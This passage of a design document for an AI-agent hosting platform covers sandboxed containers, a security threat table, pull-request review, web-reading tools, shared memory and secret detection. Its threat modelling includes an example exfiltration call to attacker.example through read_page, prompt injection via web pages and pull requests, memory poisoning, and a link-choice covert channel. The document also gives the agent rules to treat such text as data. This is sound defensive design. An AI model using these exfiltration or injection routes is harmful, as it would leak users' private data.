| **StopSandbox** | Polite: `POST /shutdown` (Hermes saves, up to 20 s), then stop. Force: kill. Refused politely while busy. Removes the egress file, closes the awake period |
| **DeleteSandbox** | Container, volume, egress file and row (awake periods kept for billing) |
| **GetUsage** | Awake seconds per user clipped to the window (open periods count up to now) |
| **SetEgressAllowlist** | Replaces domains + MCP servers; domains apply at once if awake, MCP servers on the next wake |
| **SnapshotVolume** | Streams `/data` through the Docker archive API into `SNAPSHOT_ROOT/<dir>/<user>-<time>.tar.gz` |

| Background loop | Every | Does |
|---|---|---|
| Idle reaper | 1 min | Stops (politely) containers that are not busy, have nothing in flight, whose Bridge reports no running turn, and that have been idle ≥ 3 min |
| Capacity guard | each wake | Over `AWAKE_CAP` → stops the lowest-priority, then longest-idle, not-busy container; none evictable → `RESOURCE_EXHAUSTED` |
| Health checker | 30 s | 2 failed health checks → restart; more than 3 restarts without a good check → stop + `broken` + `alert=true` log |
| Reconciler | startup + 5 min | Fixes running/stopped drift, stale `waking`/`busy`, orphan and duplicate containers, leftover egress files; never deletes volumes |
| Image rollout | on wake | A container on an old `AGENT_IMAGE_VERSION` is re-created, keeping `/data` and the same secrets |

**Container spec:**
- runtime `runsc` (gVisor), 600 MB memory with no swap, 1 CPU, pids limit 256
- read-only rootfs; only the `/data` volume is writable
- `cap-drop ALL`, `no-new-privileges`, uid 10001, `--init`
- sandbox network only, no published ports, no restart policy
- env holds no secrets: only the user id, URLs and proxy settings

**Inside the container** (the Bridge):
- At boot it turns `platform.json` into Hermes's `config.yaml`:
  - model: LiteLLM `agent-default`, with the user's key, through the proxy
  - MCP: the Platform MCP with the container token, plus the user's own servers
  - cron and messaging toolsets off
  - memory, skills and sessions in `/data/hermes`
- It starts `hermes gateway run` with only its API server, on 127.0.0.1, with a random per-boot key.
- `/deliver` runs one Hermes turn, keyed by `X-Hermes-Session-Key = session_key`, so each chat keeps its own memory.
- Deliveries are deduplicated by `delivery_id`, recorded in `/data/.platform/deliveries.json`, which survives restarts.
- Hermes's own approval prompts are denied; risky actions go through our `request_approval`.
- The Bridge sends the final answer with the Platform MCP `send_message`. Hermes can't see that tool.

### 6.16 Waitlist

- **Public `POST /v1/waitlist`:** always answers `202 {status: "ok"}`, so nobody can check whether an email is already on the list. Unknown fields → `400`.
- **Stored per entry:**
  - the email, plus a normalized copy (lowercase; Gmail dots and `+tags` removed; `googlemail.com` counted as `gmail.com`)
  - IP, the raw `X-Forwarded-For` chain, user agent, accept-language, referer, origin
  - UTM tags, referral source, use case
  - submit count, first and last seen
- **Stored per attempt** (`waitlist_attempts`): IP, user agent and the outcome (`created`, `duplicate`, `honeypot`, `rate_limited`). Kept 90 days.
- **Abuse rules:**
  - 10 attempts per IP and 5 per email per hour (`429`, still logged)
  - a hidden `website` honeypot field: the request looks accepted, but no entry is made
  - flags: `disposable_email`, `ip_burst` (more than 3 entries from one IP in 24 h), `email_alias`, `manual`
- **Admin:** list (filter by status, flagged or IP), stats (totals, blocked attempts, busiest IPs over 7 days), and update (invite, reject, flag).

### 6.17 Operations

| Area | How |
|---|---|
| **Logs** | pino JSON per request and per job; credentials, codes and auth headers are redacted |
| **Metrics** | `GET /metrics` (Prometheus text, bearer `METRICS_TOKEN`, 404 when unset): `http_requests_total`, `jobs_failed_total`, BullMQ job counts per queue and state |
| **Alerts** | `alert: true` error log lines + optional `ALERT_WEBHOOK_URL` (e.g. Slack). Raised on a job's final failure, a failed backup or snapshot, and health-check problems (over 50 failed jobs, over 1,000 waiting, vm-manager unreachable) |
| **Backups** | Nightly `system/backup`: `pg_dump --format=custom` (password via env, never on the command line) → `SnapshotVolume` for every sandbox → `BACKUP_UPLOAD_CMD` (e.g. `rclone copy {dir} b2crypt:…/{date}`) → keep `BACKUP_KEEP_DAYS` days locally |
| **Restore test** | `scripts/restore-test.sh`: restores the latest dump into a scratch database, checks key tables, runs `tar -tzf` on every volume archive |
| **Cleanup** | Daily: finished events older than 30 days, link codes a day past expiry, messages older than 365 days, waitlist attempts older than 90 days |
| **Load test** | `scripts/load-test.ts`: N linked chats send at once; fails if awake containers ever exceed `AWAKE_CAP` |

### 6.18 Security model

| Threat | Defence |
|---|---|
| Forged webhooks | Every provider's signature or secret is checked on the raw body before parsing; replays deduplicated by event id |
| An agent acting as another user | Container token → user id on the server; tools ignore any user id in their arguments; tested with crafted requests |
| An agent doing risky things unasked | Name-based risky-action detection + single-use approvals bound to the exact action and arguments |
| The pull-request review permission used for something else | It covers four GitHub actions by exact name, on a repo the user turned review on for, and never an approval, a merge or a reply. The agent can't turn review on (§6.20) |
| A pull request's text steering the agent | The review instruction carries no text from the pull request and says to treat it as material, never instructions. Risky actions still need approval |
| `read_page` used to reach our own services or the cloud metadata address | Public addresses only, checked on the URL, on what the host resolves to, at every redirect, and the connection is pinned to the checked address (§6.21) |
| `read_page` used to send the user's data out | **On Hermes:** it opens only an address already seen for this user (their own messages, a search result, a link on a page already read), at every redirect too. A made-up address is refused and logged. **On Claude Code** it opens any public address (decided 2026-10-04): there the agent image lets only Scout call it, and Scout has no files, no shell and no app tools. The platform can't check which agent calls, so an agent with a shell that reads the container's token can call `/mcp` itself: limited to one GET at a time, 30 a minute, each in the activity log, and not closed (§6.21, HLD §10.3) |
| A Max user's container with the browser on sending the user's data out | **Not prevented.** That container can reach any public website, and it holds the user's files, cloned code, the engine's memory, git access and the Claude sign-in. What limits the damage: one user per container; Composio, provider, database and GitHub keys are never in it; approvals still hold; the container's own tokens work only inside our networks; internal addresses stay refused; only Max containers are opened, and only while `BROWSER_AVAILABLE` is on. What doesn't: nothing checks where the container connects, the whole container has the open network (a shell too), and a copied Claude sign-in works anywhere (HLD §10.3) |
| A web page steering the agent | The tools say that text from the web is information, never instructions. Scout has only the two web tools on Claude Code; on Hermes that limit is an instruction, so the platform checks above are what counts (§6.19) |
| A memory passing for the user's message or for the platform | A memory is one line: line breaks and control characters become spaces when it is saved and again when the block is built, and square brackets are turned round. Only the platform writes the block's first line, its end line and the "this turn's message follows" line. The block says its notes are data and can never approve an action (§6.22) |
| Something the agent read getting a false "fact" saved (memory poisoning) | Limited, not solved: the tool says to save only what the user said themself; every save is in the activity log; the user sees and deletes memories in the web app; risky actions still need approval; 200 memories and 60 changes an hour. The platform can't check that the user really said it (§6.22) |
| A secret kept in memory | A save that looks like a key, a token, a password, a card number or an address with a token in it is refused. A safety net, not a guarantee (§6.22) |
| One user's memory read or changed by another user's agent | Every memory query filters by the user id from the container token; another user's memory id answers "not found"; tested |
| A container reaching the internet or our services | Internal sandbox network; Squid allows only LiteLLM, `/mcp`, the git gateway and that user's allowlisted domains; egress files removed on stop so IPs can't be inherited |
| Someone on the internet calling `/mcp` or `/git` | Caddy answers 404 for both; they also need the container token |
| Selling inside Telegram against its rules | No purchase link reaches Telegram (§6.6) |
| A channel we may not use (WhatsApp outside the EEA, unofficial iMessage) | Switched off by `ENABLED_CHANNELS`: nothing in, nothing out (§6.4) |
| Container escape | gVisor, read-only rootfs, no capabilities, non-root, limits; the Docker socket only in the vm-manager |
| Leaked secrets | AES-256-GCM columns (MCP secrets, BYOK, LiteLLM keys); sha256 for container tokens, link codes and coupon codes; log redaction; the Bridge secret and MCP token exist in plaintext only inside the user's own volume |
| Credit fraud | Coupon rules (7.7), unique redemptions, atomic caps, rate limits, email verification + linked chat required, IP abuse flags, free-credit monthly cap |
| Brute force and spam | Rate limits per IP (all routes), per user (messages, link codes, MCP, redeem), per chat (link codes), per email (waitlist) |
| Spoofed client IP | Only the proxy-added `X-Forwarded-For` entry is trusted, and only with `TRUST_PROXY=true` |

The per-item checklist (HLD 10.2) is in `docs/security-checklist.md`.

### 6.19 The crew (2026-10-03, HLD §0.7)

- **Who:** Tex is the lead, the agent the user texts. Byte codes, Patch reviews code, Scout researches. The ids `tex`, `byte`, `patch`, `scout` are fixed.
- **Where they live:** in the Bridge inside the agent image (`vm-manager`), defined once for both engines. The backend only knows what is below. No change to the gRPC proto.
- **The crew list** (`GET /v1/crew`, `orchestrator/crew.ts`): the four members with id, name, `kind` (`lead` or `specialist`), role, a short description and `available`.
  - `available`: Tex always. A specialist when it is named in `CREW_AVAILABLE` (default `byte,patch,scout`; `none` switches all three off). The backend can't see which image is deployed, so this setting says what the apps may show.
  - Scout also carries `browser: { requiresPlan, available, enabled }`. `requiresPlan` comes from the plans (the plan whose limits have `browser: true`, which is Max). `available` is the setting `BROWSER_AVAILABLE` (off by default): whether the deployed agent image has the browser. `enabled` is whether it is on for the signed-in user: available, and their plan includes it (§6.23). `listCrew` takes the user's plan for this.
  - Scout's description says what needs Max and what doesn't: web search through Textcrew and the real browser need it; the search built into the user's own Claude plan works on any plan and costs no credits.
- **Progress lines** (`orchestrator/turn.ts`): the Bridge reports progress during a turn as stream events with a text, for example `Scout: reading 4 pages` or `using web_search`.
  - Every line goes to the web app's live stream as `agent.progress` (`text`, `crew`, `at`). `crew` is `byte`, `patch` or `scout` when the text starts with that name and a colon, otherwise null.
  - **Nothing is sent to Telegram** or any other chat for a progress line. A chat only gets what the agent sends with `send_message`.
  - A line that names a crew member is also saved to the activity log (`crew_progress`, with `crew`), at most 30 per turn. A line is cut at 300 characters. A failure here never fails the turn.
- **Known limit on Hermes** (from the agent-image package): the pinned Hermes version has no tool list per delegated task. On Claude Code a specialist's tool list is enforced; on Hermes it is only an instruction. So Scout's "search and read only" holds by tools on Claude Code and by instruction on Hermes. Approvals hold on both engines. The seen-address rule of `read_page` holds on Hermes; on Claude Code it was given up for the tool lists (§6.21).

### 6.20 Pull-request review (2026-10-03, HLD §0.8)

**Turning it on and off** (`automations/pr-review.ts`):
- `PUT /v1/pr-reviews/{owner}/{repo}` needs GitHub connected (`409` otherwise) and a free automation in the plan (`403 plan_limit`). It creates an **event automation with the preset `pr_review`**: a Composio trigger `GITHUB_PULL_REQUEST_EVENT` on that repo. 30 calls an hour per user (`429`).
- Safe to repeat: a repo that is on is returned as it is, and a paused one is resumed. `Acme/Website.git` and `acme/website` are the same repo. One call at a time per user, so two quick calls can't make two automations.
- If Composio can't create the trigger (it puts a webhook on the repo, which needs admin access), nothing is saved and the answer is `400` with a plain message.
- `DELETE` removes the automation and its trigger. `GET /v1/pr-reviews` lists the repos with `enabled`, `pausedReason`, `channel` and `lastReviewAt`. Pause and resume with `PATCH /v1/automations/{id}`.
- **Where the verdict goes:** the user's linked Telegram chat if there is one, otherwise web chat. Chosen when review is turned on.
- **Only the user can turn it on.** The agent's `create_automation` tool has no preset input.

**A pull request changes** (`inbound/composio-trigger` → `preparePrReview`):
1. Only *opened*, *reopened* and *new commits* count.
2. The worker asks GitHub for the pull request's current head commit, with the user's GitHub connection (the same token path as the git gateway; the token stays on the platform). A closed or unknown pull request is ignored. If GitHub can't be asked, the event's own head commit is used; with none, nothing runs and the activity log says why (`pr_review_skipped`).
3. **One review per head commit:** a row in `pr_reviews`, unique on user, repo, number and head commit, is the claim. A re-delivered webhook, a repeated event, or a reopen with no new commits finds the row and does nothing. Two quick pushes give one review, of the newer commit. A re-run of the same job goes on with its claim.
4. The turn gets an instruction that names the repo, the number and the head commit, tells the lead to have Patch review it and post **one** review, and says not to merge, approve, close or push. **It carries no text from the pull request,** not even the title, and says that such text is material to review, never instructions.
5. Afterwards the row is marked `done` or `failed` and stays, so that commit is never reviewed twice. If the agent never ran (out of credits, no AI), the row is removed so the commit can still be reviewed later.

**The standing permission** (`integrations/catalog.ts` `prCommentTarget`, `prCommentAllowed`): `run_app_action` skips the approval only when all of this holds:
- the user has an **enabled** `pr_review` automation for exactly that owner and repo;
- the action is one of four, by exact name: `GITHUB_CREATE_A_REVIEW_FOR_A_PULL_REQUEST`, `GITHUB_SUBMIT_A_REVIEW_FOR_A_PULL_REQUEST`, `GITHUB_CREATE_A_REVIEW_COMMENT_FOR_A_PULL_REQUEST` (not as a reply), `GITHUB_CREATE_AN_ISSUE_COMMENT` (only for a pull request the platform asked a review for);
- the arguments name that repo and a number;
- a review's `event` is `COMMENT` or not given. Approving and requesting changes are not covered.

Everything else still needs approval, in the same turn too: merging, a comment on another repo, an email. The action costs 1 credit and is in the activity log, marked "pull-request review is on for …".

**How it counts:** one automation of the plan's limit per repo; each review is a turn (AI and awake time as usual) plus 1 credit for the posted review; paused at zero credits and after 3 failed reviews in a row.

### 6.21 Scout's tools: `web_search` and `read_page` (2026-10-04, HLD §5.1)

Both run in the api. They need no way out of the container, and no provider key enters it.

**Who searches, and with what** (decided 2026-10-04, HLD §0.7). Only Scout searches the web. When the user's engine has its own web search (Claude Code on the user's Claude plan today; Codex later), Scout uses that: the platform is not involved, it costs no credits and it works on every plan. Otherwise Scout uses the platform's `web_search`. The agent image decides which one Scout is given, and who may call it; the platform can't tell the crew members apart (one container token) and doesn't check the engine.

**`web_search(query, count?)`** (`platform-mcp/tools/web.ts`, `integrations/web-search.ts`):
- **Max plan only** (decided 2026-10-04). The plan is read from the user's row at every call (`planHasWebSearch` in `billing/plans.ts`, plugged in through `wiring.ts`; until it is plugged in, no plan has it). On Free and Pro the tool throws a tool error, so the agent reads it and the turn goes on:
  > Web search through Textcrew is part of the Max plan, and your user is not on Max: nothing was searched and nothing was charged. If your engine has its own web search, use that instead. Otherwise tell your user that web search needs the Max plan; they can upgrade in the Textcrew web app. Do not send a link. read_page still opens an address they give you.
  - Nothing is searched, nothing is charged, and no address becomes "seen".
  - The refusal goes to the activity log as `web_search_refused` (`Web search needs the Max plan (asked: …)`, `creditsCharged` 0).
- **The order of the checks:** rate limit → plan → is a provider set up → credits → the search → the charge. The rate limit is first, so refused calls count and can't fill the activity log.
- A provider interface chosen by `WEB_SEARCH_PROVIDER`. One provider is built: the **Brave Search API** (`GET /res/v1/web/search`, key in `X-Subscription-Token`).
- **No key set:** the tool answers that search isn't set up. It is a normal answer, not an error, so the turn goes on. Nothing is charged.
- 20 calls a minute per user; at most 10 results (default 5), each a title, a link and a snippet.
- Refused at zero credits. Charged only on success, **1 credit a search**, as a paid tool (§6.10).

**`read_page(url)`** (`integrations/web-page.ts`): reads one public web page and returns its text and its first 50 links. Free, on every plan. 30 pages a minute per user.
- **The URL:** `http` or `https` only, ports 80 and 443, no user name or password. A host written as an address must be a public one. Names with no dot, `localhost`, `.local`, `.internal` and the platform's own hosts are refused.
- **What the host resolves to:** refused if **any** of its addresses is private, loopback, link-local (the cloud metadata address), carrier NAT, multicast or reserved. For IPv6 only global addresses pass.
- **Pinned connection:** the request connects to the address that passed the check, whatever the name resolves to a moment later (no DNS rebinding). The name is still what the certificate is checked against. Each request has its own connection.
- **Redirects** are followed by hand, at most 5, and every hop goes through all the checks again.
- **Limits:** 15 seconds in total; 2 MB; text types only (HTML, plain text, JSON, XML); 20,000 characters returned. The text extraction is one pass with no backtracking.
- **What is sent:** a plain GET with a fixed user agent. No cookies, nothing about the user.

**Which addresses `read_page` opens depends on the engine** (decided 2026-10-04, `platform-mcp/tools/web.ts`):

| The turn runs on | `read_page` opens |
|---|---|
| Claude Code | Any public address, and any redirect that passes the address checks |
| Hermes, or no turn on record | Only an address already seen for the user (below) |

- **Why:** on the server, Scout searched with Claude Code's built-in search and `read_page` refused every result (`read_page_refused`). Those results never pass through the platform, so none was a "seen" address.
- **Why Claude Code can be open:** the agent image lets only Scout call `read_page` there, and Scout has no files, no shell and no app tools. Hermes can't narrow tools per agent, so it keeps the strict rule.
- **How the engine is known** (`orchestrator/turn.ts`): `runTurn` records the engine the turn really runs on (what `syncRuntimeAfterWake` returns) in Redis as `turn-engine:<user>` just before it delivers, for 20 minutes at most, and removes it when the turn ends, however it ends. `read_page` reads it with `turnEngine(userId)`. No record, or Redis can't be read: the strict rule. A turn that was running on Hermes when the user connected their Claude plan stays strict; so does a turn whose container could not be switched.
- **The address checks are the same on both:** private, loopback, link-local, metadata and internal addresses are refused, on the URL, on what the host resolves to and at every redirect.
- **The tool's description** is one text for both engines. It no longer says that only seen addresses can be read (that would stop Scout on Claude Code from reading its own search results); it says some engines refuse an unseen address, and the refusal says what to do.
- **In the activity log** a page read at an address that had not been seen carries `seen: false` in the entry's details.
- **What this gives up** is in HLD §10.3: the platform trusts the agent image for "only Scout", and an agent with a shell can call `/mcp` itself with the container's token.

**The seen-address rule** (`platform-mcp/seen-urls.ts`), on Hermes and whenever no Claude Code turn is on record. `read_page` needs no approval, so it must not be a way to send data out: an injected instruction could otherwise make an agent call `read_page("https://attacker.example/?d=<private data>")`. So it opens only an address the platform has already seen for this user, by exact match after normalising:
- **(a)** an address in the user's own messages (their last 100 from the past 7 days, on any chat). The agent's own messages, automation instructions and app events don't count;
- **(b)** a result of `web_search`;
- **(c)** a link on a page `read_page` already returned.
- Normalising drops `http`/`https`, a leading `www.`, a trailing slash and the fragment. The path and the whole query string must match. The address that is fetched is the one that was seen, not the agent's spelling.
- **Redirects follow the same rule:** only to a seen address, or to the same address in another spelling. Other redirects are refused, on the same site too.
- (b) and (c) are kept in Redis per user for 24 hours, at most 500 addresses. (a) is read from the messages when asked.
- A refusal tells the agent to search first or ask the user for the link. It is written to the activity log (`read_page_refused`) without the query string.
- **What it does not stop:** a hostile page can offer many links, and an injected agent can signal a few bits by which one it opens. The caps and the rate limit keep that slow.
- **Known cost:** an automation that reads a fixed page works while the link is in the user's recent messages. After that the agent must search or ask again.

### 6.22 Shared memory (2026-10-04, HLD §0.9)

**Why:** each engine keeps its own memory inside the container, so a user who switched engines got an agent that had forgotten them. Now one memory lives on the platform and every engine gets it. The engines' own memory in `/data` is left as it is.

**What a memory is** (`orchestrator/memory.ts`, table `memories`): one short fact about the user, on one line, at most 300 characters, with a kind: `preference`, `person`, `project`, `instruction` (a standing instruction) or `fact`. The orchestrator owns it because it builds what is delivered on every turn and already owns the other per-user agent state; the Platform MCP owns no tables.

**The tools** (`platform-mcp/tools/memory.ts`). Both engines and every crew member with the platform tools have them. On Claude Code, Scout does not (its tool list is the two web tools).
- **`remember(content, kind?)`** saves one memory. The same text again (ignoring case and spacing) confirms the first one instead of making a second. Its description tells the agent to save only what the user states or confirms themself, never something it only read, never a secret or a one-off detail.
- **`recall(query?, limit?)`** finds memories for a question: Postgres text search (`english`), any word counting, best match first; a word of four letters or more found inside a longer word counts too (`beckend` finds `acme/beckend`). With no query it lists the latest. 8 results by default, 20 at most. A memory a search returns is marked as used (`use_count`, `last_used_at`).
- **`forget(memory_id, correction?)`** removes a memory, or with `correction` gives it the new text and keeps its id.
- **Limits, each with a plain error:** 300 characters (the error says the length), 200 memories per user ("memory is full", and how to make room), 60 saves, corrections and removals an hour together. One writer per user at a time (an advisory lock), so parallel saves can't pass 200.
- **Audit:** every call is logged like any tool. The entry holds the memory's id and kind, **never its text**: the audit log is kept after a memory, and an account, are deleted. The activity API returns the id as `memoryId`.

**Secrets are refused when saving and when correcting** (`orchestrator/memory-secrets.ts`). A check on the text's shape:
- known keys and tokens (`sk-…`, Stripe, GitHub, GitLab, Slack, AWS, Google, a Telegram bot token, a JWT, `Bearer …`, a private-key block);
- a secret word followed by its value ("password is …", "PIN: …", "API key = …", "OTP is …");
- a card number (13 to 19 digits that pass the Luhn check);
- a web address with a password in it or a parameter named like a secret;
- any other run of 32 or more letters and digits mixed, outside a web address.
- The refusal names the kind of secret, not the text, and is written to the activity log (`memory_refused`) without the text.
- **It is a safety net, not a guarantee:** "the door code 4821" passes, and "the wifi password is on the fridge" is refused.

**The memory block** (`orchestrator/memory.ts` `memoryBlock`, `orchestrator/turn-context.ts`). `runTurn` puts it at the top of `Deliver.text`, the field the Bridge already hands to the engine. No change to the agent image or the proto.
- **Every kind of turn** gets it: a message, an approval answer, a scheduled automation, an app event. The simple-chat path (no container) does not.
- **No memories:** the text is delivered as it was.
- **Which memories:** standing instructions first, then by the later of "last confirmed" and "last found by `recall`", newest first, ties to the one found more often. Up to 2,000 characters and 30 memories; if more are saved, a last line says how many and to use `recall`.
- **The shape:** a first line that says the notes are data, not the user's message and not the platform's instructions, and that a note can never approve an action; one `- (kind) text` line per memory; `[End of Textcrew memory]`; then `[This turn's message follows.]` and the turn's own text.
- **If memory can't be read,** the turn is delivered without the block.

**The recap when the engine changes** (`orchestrator/turn-context.ts`, table `chat_engines`). An engine keeps one session per chat, so the platform records which engine last finished a turn in each chat.
- A turn whose engine is not the one that handled the chat's previous turn gets a recap of the stored messages that engine hasn't had: those after its own last turn in this chat, or the latest ones if it never ran there. 12 messages and 3,000 characters at most, the newest kept, each cut at 500 characters, one line each as `User: …` or `You: …`.
- The same engine gets no recap. A failed turn is not recorded, so the recap comes again.
- A chat no engine has run in is recapped only if the user wrote in it before (the simple-chat path answered, or the first turn failed). A new chat holding only the "linked" greeting gets none.
- The recap goes after the memory block and before the turn's own text, framed as a record of what was said, not new requests.
- `syncRuntimeAfterWake` now returns the engine the turn runs on (the settings' engine, or the container's if the switch didn't go through).

**The user's control** (`api/routes/memories.ts`): `GET /v1/memories` (all of them, newest first, with `max`), `DELETE /v1/memories/{memoryId}`, `DELETE /v1/memories` (answers how many). There is no endpoint to add or edit one. Each delete is in the activity log, without the text. The *delete-user* job removes the memories and the `chat_engines` rows.

**Security, in short:** a memory is data and nothing on the platform reads one to decide what is allowed; text in a memory or in a recap can't write the platform's own lines; an address in a memory is not a "seen" address for `read_page`; memories never cross users. **Not solved:** the platform can't check that the user really said a fact, so an agent that follows an injected instruction can save a false one, and it stays until the user deletes it. On Hermes, Scout can reach `remember` (its tool list is only an instruction). Memory can be written in a turn the user didn't start (an app event, a pull-request review).

### 6.23 Scout's browser: the platform's side (2026-10-04, HLD §11)

The browser runs **inside the user's own container**. The agent image carries it and the vm-manager switches it on per container; both are in the `vm-manager` repo. The earlier plan (a hosted browser at Browserbase driven by six platform tools) is cancelled: there is no `browser_*` tool on the Platform MCP and no provider. This repo decides who has the browser, tells the vm-manager, charges the time and tells the apps.

**Who has it** (`orchestrator/browser.ts`, `browserWanted(plan)`). Both must hold:
- the plan includes it: Max (`limits.browser`, plugged in through `wiring.ts`; until it is plugged in, no plan has it);
- `BROWSER_AVAILABLE` is on. The backend can't see which agent image is deployed, so this setting says the image has the browser. It is **off by default**: until it is on, no container's browser is switched on, whatever the plan.

**Telling the vm-manager.** The wanted state is sent (on or off), never "flip it", so each of these can be repeated:

| When | How |
|---|---|
| A container is created | `CreateSandbox` carries `browser_enabled` (`orchestrator/sandbox.ts`) |
| The plan changes | `auth.setPlan` now answers whether the plan changed. Billing fires `onPlanChanged` after its transaction: a new subscription, `subscription.updated` with another product, and a subscription ending (`polar-events.ts`, `subscriptions.ts`). A renewal of the same plan fires nothing. `wiring.ts` adds a **`system/sync-browser`** job. The job reads the plan again, asks `GetSandbox` what is on record and calls `SetBrowser` only when it differs. No container yet: nothing to do. vm-manager down: the job fails and is retried like any job |
| After every wake | `syncBrowserAfterWake` (`orchestrator/turn.ts`) compares `browser_enabled` of the woken sandbox with the rule and sends `SetBrowser` on a difference. This catches a job that ran out of tries, a container made before the browser existed, and a change of the setting. It never fails the turn |

- **It takes effect on the container's next wake** (the vm-manager's rule). A user who upgrades while awake has the browser after the container has stopped and woken again; a user who leaves Max keeps it until then, and pays for those minutes.
- **Every switch is in the activity log:** `browser_enabled` and `browser_disabled`, actor `system`.
- The dev script sets a plan directly, so `create` sends the switch itself and `browser --user` sends it for any user (§6.24).

**Money.** No code was missing: the usage sync already read `browser_seconds` from `GetUsage`, which was always 0. Tests now hold it to the price (`test/phase5-usage.test.ts`): 30 seconds is 1 credit, part minutes carry over between syncs, a window is charged once however often the sync runs (the same window in parallel, again, a later window, the 5-minute job), a period shows `browserSeconds` and `browserCredits` in `GET /v1/usage` and `Usage: …, browser N` in the credit history, and a turn reversed as our fault gives the browser credits back. A user at zero credits is not woken (`test/browser.test.ts`). Inside a turn the browser is not cut off; a turn lasts 15 minutes at most.

**What the apps are told:** `GET /v1/crew` → Scout's `browser: { requiresPlan: "max", available, enabled }`; `GET /v1/billing/plans` → `limits.browser` and the line "Browser use: 2 credits per minute" on Max only; `GET /v1/usage` → `browserSeconds`, `browserCredits`.

**Not in this version:** signing in to sites (HLD §11.6: it needs a way for the user to see the browser), any view of the browser for the user, and any check of where the browser goes.

**What it opens.** A container with the browser on can reach any public website, and so can everything else in it. HLD §10.3 says plainly what that leaves open and what still limits the damage; §6.18 has the short form.

### 6.24 The dev script: a turn from the command line (2026-10-04)

`scripts/dev-user.ts` runs inside the api container (`node --import tsx scripts/dev-user.ts <command>`) and uses the same module functions as the api and the worker. Since 2026-10-04 it can run and inspect a whole turn with no Telegram and no web app:

| Command | What it does |
|---|---|
| `send --user <id> --text <text> [--timeout 900]` | Sends a message in **web chat** through `sendWebMessage`, the function `POST /v1/messages` itself calls (channel on, 30 a minute, refused at zero credits, saved once, the `web-message` job). The worker runs the turn. The script listens to the user's live stream, waits for the job to end and prints `sent <message id>`, a `progress …` line per progress line, a `reply …` per message the agent sent (and `approval <id> is waiting…` when one asks for approval), `turn done after N s`, the message's status and the balance. After `--timeout` seconds it says the turn is still running |
| `messages --user <id> [--limit 10]` | The latest messages, oldest first: time, `user` or `agent`, channel, status, text |
| `activity --user <id> [--limit 20]` | The latest activity entries, oldest first: time, actor, action, `crew=…`, `credits=…`, summary |
| `approve --user <id> [--approval <id>] [--decision approve\|reject] [--timeout 900]` | Answers a pending approval as the web app does (`decideApproval`, via `dev-script`), then follows the agent's next turn like `send`. Without `--approval` it takes the pending one; with none or several it says so |
| `pr-review --user <id> [--repo <owner>/<name> --state on\|off]` | Turns pull-request review on or off for a repo (`enablePrReview`, `disablePrReview`) and lists what is on. With only `--user` it lists |
| `memories --user <id> [--clear all\|<memoryId>]` | Lists the shared memory; deletes one or all (in the activity log as `memory_deleted` / `memories_cleared`, actor `admin`) |
| `browser --user <id>` | Sends Scout's browser switch for the user now and prints the state. `create` and `status` print the same line: `browser on\|off\|unknown (should be on\|off; the image has it: yes\|no)` |

- **It never prints a secret.** No key, token or sign-in code is read for printing. Text that people or the agent wrote (messages, replies, progress lines, approval and activity summaries, memories) goes through `hideSecrets` (`orchestrator/memory-secrets.ts`): known key and token shapes, a web address with a password or a token, the value after a secret word, card numbers, and long random runs are replaced by `[hidden]`. A plain hash (a commit id) and a long id inside a web address are left readable.
- `sendWebMessage` (`orchestrator/process-message.ts`) is new: the route's checks, save and job moved into it unchanged, so the script and the web app share one path.

---

## 7. Data model

### 7.1 Backend database (29 tables, 12 migrations)

| Module | Table | Purpose / key columns |
|---|---|---|
| auth | `users` | id, clerk_id (unique), email, email_verified, name, timezone, plan, role, flagged, deleted_at |
| auth | `link_codes` | code_hash (unique), user_id, channel, expires_at, used_at |
| auth | `channel_links` | user_id, channel + external_id (unique), display_id, last_inbound_at (24 h rule), blocked |
| auth | `waitlist_entries` | email, email_normalized (unique), request data, status, flagged, flag_reasons, submit_count, offer_used_at |
| auth | `waitlist_attempts` | ip, user_agent, outcome, entry_id |
| events | `events` | source + external_id (unique), type, user_id, payload, status (received/queued/done/failed/ignored), queue, job_name |
| channels | `messages` | user_id, channel, direction, text, media_ref, status, event_id, approval_id, client_message_id (unique per user), external_id, session_key |
| channels | `attachments` | user_id, name, mime_type, size_bytes, path |
| orchestrator | `sandbox_tokens` | user_id → mcp_token_hash (unique) |
| orchestrator | `agent_settings` | user_id (PK), runtime (hermes/claude_code, default hermes), ai_preference (auto/platform, default auto), claude_connected_at (null = not connected), updated_at. No Claude credential is ever stored |
| orchestrator | `approvals` | user_id, summary, app, action, arguments, status, session_key, expires_at, decided_at/via, used_at |
| orchestrator | `memories` | user_id, kind (preference/person/project/instruction/fact), content (one line, at most 300 characters), confirmed_at (saved, saved again or corrected), last_used_at and use_count (found by `recall`), created_at, updated_at. The only place a memory's text is kept |
| orchestrator | `chat_engines` | user_id + session_key + runtime (**the key**), last_turn_at. Which engine last finished a turn in each chat |
| integrations | `connections` | user_id, app, composio_account_id (unique), status, account_label |
| integrations | `user_mcp_servers` | user_id, name, url, domain, auth_header_name, auth_secret (encrypted), enabled |
| integrations | `composio_triggers` | user_id, composio_trigger_id, trigger_slug, config. **Not used yet:** app-event automations keep their Composio trigger id in `automations.trigger_ref` |
| integrations | `byok_keys` | user_id + provider (unique), key (encrypted), last4, model |
| automations | `automations` | kind, title, instruction, run_at / cron / timezone / trigger + trigger_ref, preset (null or `pr_review`), session_key, enabled, paused_reason, fail_count, next_run_at, last_run_at, completed_at |
| automations | `pr_reviews` | user_id + owner + repo + pr_number + head_sha (**unique**), automation_id, event_id, status (requested/done/failed). One row per reviewed head commit |
| billing | `subscriptions` | user_id, plan, polar_subscription_id, status (incl. `cancel_at_period_end`), period_start/end, ended_at |
| billing | `payments` | polar_order_id, user_id, polar_subscription_id, kind, amount_cents (net), credits bought |
| billing | `credit_grants` | user_id, source, amount, remaining, expires_at, cheap_model_only, ref |
| billing | `credit_ledger` | user_id, grant_id, delta, reason, idempotency_key (unique), meta (`kind`: `app_action` or `paid_tool`, with the call's cost), **UPDATE blocked by trigger** |
| billing | `usage_periods` | user_id + period_start (unique), period_end, AI cost, awake/browser seconds, credits per kind (browser time in `browser_credits`) |
| billing | `litellm_keys` | user_id, key (encrypted), key_alias, models, max_budget, synced spend (total + per model), revoked_at |
| billing | `coupons` | campaign, credits, max_redemptions, redeemed_count, expires_at, credit_expiry_days, cheap_model_only, new_users_only, plans, active |
| billing | `coupon_codes` | coupon_id, code_hash (unique), code_prefix, max_redemptions, redeemed_count (per code) |
| billing | `coupon_redemptions` | coupon_id + user_id (**unique**), ip, grant_id |
| admin | `audit_log` | user_id, actor (user/agent/admin/system), action, summary, details (`crew` on progress lines, `memoryId` on memory entries, never a memory's text), credits_charged (set on `run_app_action`, `web_search` and `web_search_refused` entries) |

